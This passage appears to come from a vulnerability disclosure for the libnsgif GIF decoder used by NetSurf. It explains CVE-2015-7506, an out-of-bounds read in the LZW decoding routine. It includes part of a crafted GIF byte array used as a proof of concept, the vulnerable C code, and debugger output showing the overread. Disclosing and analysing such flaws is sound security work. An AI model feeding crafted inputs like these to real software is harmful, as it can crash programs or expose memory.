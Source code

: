 ```c
    0x04, 0x00,     /* height */
    0x00,           /* flags */
    0x04,           /* code size */
    0x0d,           /* block_size */

    /* image data */
    0x10, 0xcb,
    0x41, 0xf3,
    0xf3, 0xf3,
    0xf3, 0xf3,
    0xf3, 0xf3,
    0xf3, 0xf3,
    0xf3,

    /* end of image data */
    0x00,

    /* end of .gif */
    0x3b
};
```


## CVE-2015-7506

If `set_code_size` is 0xc, `clear_code` is assigned a value of 4096.
Since the while-loop in `gif_next_LZW()` executes so long as `code >=
clear_code`, an out-of-bounds read might occur due to `code` being used
to dereference `table` (2d array * 4096).  A boundary check exist in
that if `code >= max_code`, it's assigned the value of `oldcode` --
however, the result may still exceed `max_code` due to the bookkeeping
of the *original* value:

src/libnsgif.c #1172..1237:
```c
static bool gif_next_LZW(gif_animation *gif) {
[...]
    incode = code;
    if (code >= max_code) {
        *stack_pointer++ = firstcode;
        code = oldcode;
    }
[...]
    oldcode = incode;
[...]
}
```

Again, using NetSurf as an example:

```sh
~/netsurf-all-3.3/netsurf$ gdb -x oob.py --args ./nsgtk oob.gif
[...]
out-of-bounds read: code: 6670 (+2575)
out-of-bounds read: code: 7999 (+3904)
```

